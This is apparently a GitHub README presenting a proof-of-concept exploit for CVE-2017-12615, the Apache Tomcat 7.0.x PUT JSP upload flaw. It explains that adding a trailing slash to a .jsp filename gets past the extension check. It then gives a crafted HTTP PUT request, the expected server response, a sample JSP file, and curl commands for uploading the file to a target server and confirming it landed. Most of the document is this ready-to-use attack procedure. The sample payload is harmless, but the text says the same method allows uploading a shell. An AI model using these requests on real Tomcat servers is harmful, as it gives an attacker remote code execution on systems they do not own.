 ### _In memory of Chia Junyuan (https://packetstormsecurity.com/files/author/11924/)_

# CVE-2017-12615
POC Exploit for Apache Tomcat 7.0.x CVE-2017-12615 PUT JSP vulnerability.

## Description:
By design, you are not allowed to upload JSP files via the PUT method on the Apache Tomcat servers.
This is likely a security measure to prevent an attacker from uploading a JSP shell and gaining remote code execution on the server.
However, due to the insufficient checks, an attacker could gain remote code execution on 7.0.x Tomcat servers that has enabled PUT by requesting PUT method on the Tomcat server using a specially crafted HTTP request. But seriously, special? Please.

## Exploit method:
By appending a '/' character behind the filename's extension, one can bypass the file extension check. That's it. So, not that special actually.

### Exploit in a Request Method:
#### Request
```http
PUT /myfile.jsp/
Host: domain-name:port
Connection: close
Content-Length: 85

<% out.write("<html><body><h3>[+] JSP upload successfully.</h3></body></html>"); %>
```
#### Expected response if successful
```http
HTTP/1.1 201 Created
Server: Apache-Coyote/1.1
Content-Length: 0
Date: Sat, 23 Sep 2017 06:36:36 GMT
Connection: close
```

### Exploit using 'curl':
1. Create a .jsp file (e.g. test.jsp):
```jsp
<% out.write("<html><body><h3>[+] JSP file successfully uploaded via curl and JSP out.write  executed.</h3></body></html>"); %>
```
2. Perform the curl command on target server:
```sh
curl -X PUT http://target-host-or-ip-address:port/test.jsp/ -d @- < test.jsp
```
3. Check if your file is uploaded by browsing to the target address or:
```sh
curl http://target-host-or-ip-address:port/test.jsp
```
